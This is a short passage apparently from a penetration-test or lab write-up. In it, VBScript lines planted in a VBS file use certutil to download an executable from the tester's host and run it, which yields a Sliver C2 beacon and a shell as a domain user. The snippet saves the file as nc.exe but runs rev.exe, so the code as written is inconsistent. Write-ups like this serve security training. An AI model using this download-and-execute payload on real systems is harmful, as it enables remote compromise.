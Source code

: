 We then added the following lines to the VBS file.

```vb
oShell.run "cmd.exe /c mkdir C:\Temp"
oShell.run "cmd.exe /c certutil -urlcache -f http://10.8.4.157:8888/rev.exe C:\Temp\nc.exe"
oShell.run "cmd.exe /c C:\Temp\rev.exe"
```

<img src="attachments/202bfdb0e84f000cc3cb1f85b7bda388.png" />

We deleted the current VBS file, uploaded the malicious one, and were able to see the web request to Eagle.

<img src="attachments/65262830f92378c7f5be232cc178c092.png" />
We were able to see the beacon activate and establish a connection to our Sliver C2.

<img src="attachments/a495c39aef5b2dc6cf23e9c0246c0adc.png" />

<img src="attachments/72521a282bc3f0dff0b14f70af86b359.png" />

We were able to see that we had obtained the shell as `Amelia.Griffiths`.
